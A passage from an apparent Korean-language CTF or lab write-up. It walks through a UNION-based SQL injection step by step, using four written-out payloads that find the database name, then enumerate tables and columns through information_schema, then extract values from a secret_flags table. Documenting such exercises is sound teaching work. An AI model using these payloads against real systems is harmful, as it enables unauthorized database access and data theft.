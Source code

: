 ```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,database()--+
```

출력 결과를 통해 현재 사용 중인 데이터베이스는 **spec1**임을 확인할 수 있었다.

후에 이제 `information_schema.tables`를 이용해 데이터베이스 spec1 내의 테이블 목록을 확인해보았다.

다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret_flags**가 출력되었다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+table_name+from+information_schema.tables+where+table_schema='spec1'+limit+2,1)--+
```

이후, `secret_flags` 테이블 내부에 어떤 컬럼들이 존재하는지 확인하기 위해 `information_schema.columns`를 조회하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+column_name+from+information_schema.columns+where+table_schema='spec1'+and+table_name='secret_flags'+limit+?,1)--+
```

쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

마지막으로, 이전 단계에서 확인한 `flag_value` 컬럼으로부터 실제 데이터를 추출하기 위해 다음과 같은 쿼리를 사용하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+flag_value+from+secret_flags+limit+1,1)--+ 
```

결과
![spec1 flag](/assets/web-screenshots/union-sqli/spec1_flag.png)
